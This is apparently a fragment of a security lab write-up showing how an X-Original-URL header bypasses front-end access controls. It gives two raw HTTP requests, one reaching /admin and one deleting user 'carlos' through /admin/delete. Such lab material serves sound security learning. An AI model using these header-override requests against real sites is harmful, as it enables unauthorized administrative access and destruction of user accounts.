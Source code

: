 - Send an allowed URL as main and the real target in the `X-Original-URL`

```bash
GET / HTTP/2
X-Original-Url: /admin
...
```

![](.gitbook/assets/2024-01-28_10-59-21_409.png)

- Delete user using the `X-Original-Url` header

```bash
GET /?username=carlos HTTP/2
X-Original-Url: /admin/delete
...
```

![](.gitbook/assets/2024-01-28_11-03-49_411.png)

![](.gitbook/assets/2024-01-28_11-02-04_410.png)
